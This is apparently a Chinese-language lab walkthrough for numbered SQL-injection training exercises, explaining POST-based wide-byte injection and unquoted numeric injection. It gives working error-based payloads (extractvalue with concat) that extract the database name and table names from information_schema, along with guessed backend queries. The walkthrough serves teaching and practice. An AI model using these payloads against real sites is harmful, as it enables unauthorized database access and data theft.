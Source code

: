 post类型的宽字节注入



此题的盲点在于：我们平常用宽字节注入的时候都是用get注入的`%bf`。此东西会和`\`宽字节编码为另一个字符。而在url中输入`%bf`后端是会解码一次的。也就是说后端并不是`%bf`和`\`组成的字符而是`%bf`解码后的字符，和`/`再组成了新的字符。`%bf`解码后为`�`



而此题中因为是`post`方式，所以后端不会进行一次url解码。所以我们应该输入的不是`%bf`而是`�`。





payload:

```
username:1�' and extractvalue(1,concat(0x7e,(select database())))#
password:任意
```





猜测后端sql语句：

```
select * from users where username='前端数据' adn password='前端数据' limit 0,1;
```





#### 35.



此题和33题没有什么区别，只是此题并没有使用`'`,`"`，`()`什么的包裹数据。所以直接注就行了，不需要闭合。注入也不要用`'`单引号





payload:

```
?id=1 and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479)))#
```







猜测后端sql语句：

```
select * from users where username=前端传的数据 limit 0,1;
```





#### 36.


